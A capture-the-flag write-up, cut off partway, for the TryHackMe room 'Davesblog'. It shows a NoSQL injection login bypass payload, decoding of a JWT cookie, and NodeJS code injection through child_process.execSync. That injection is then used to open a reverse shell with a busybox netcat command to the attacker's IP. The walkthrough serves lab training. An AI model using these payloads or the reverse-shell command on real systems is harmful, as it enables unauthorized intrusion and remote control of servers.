 <h3> Davesblog TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe08f1e1-1816-4a36-8e3c-a5a65985d426)

Checking the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4d01c87-c206-417e-9cfa-1ec50bf94091)

From looking at the web app server buildins we can see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/699e3b64-a912-42dc-9981-f07f4bac6a09)

This tells us that the web server is running on Express which is basically NodeJS and also the db is NoSQL

Checking the /admin directory shows a login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f349a68b-2136-4aa8-af74-9e247ae4a70e)

Since we don't currently know any cred to use lets try NoSQLi 

I used [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to get my payload to be:

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

And remember the *Content-Type* should be set to *application/json*

Trying that bypasses the login form
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/046e84e9-57e8-481b-89f1-08b9b76bed54)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66883af2-ca6e-41be-af4a-263eecd1a4de)

A new cookie is formed and its a jwt token 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7d75288-15ec-4e23-8793-f0cf70640399)

Using [jwt.io](https://jwt.io/) I decoded the jwt token and got the first flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e97c9fe-1ad5-4a1a-883b-59e50e80d435)

There's a place which claims to be executing system commands but when i try execute normal commands it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70d80988-4740-4c49-bbb8-0db576988e65)

Since we know that the web server is build on NodeJs lets execute a NodeJS command
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/98e7ddae-13d6-4554-9f14-c20c612adf99)

```js
(() => { return require("child_process").execSync("whoami;", { timeout: 5000 }); })();
```

Now lets get shell :D

```js
(() => { return require("child_process").execSync("busybox nc 10.2.42.156 1337 -e /bin/bash;", { timeout: 5000 }); })();
```

To stabilize the shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/79634295-3ecd-410c-932c-543f9a59b040)



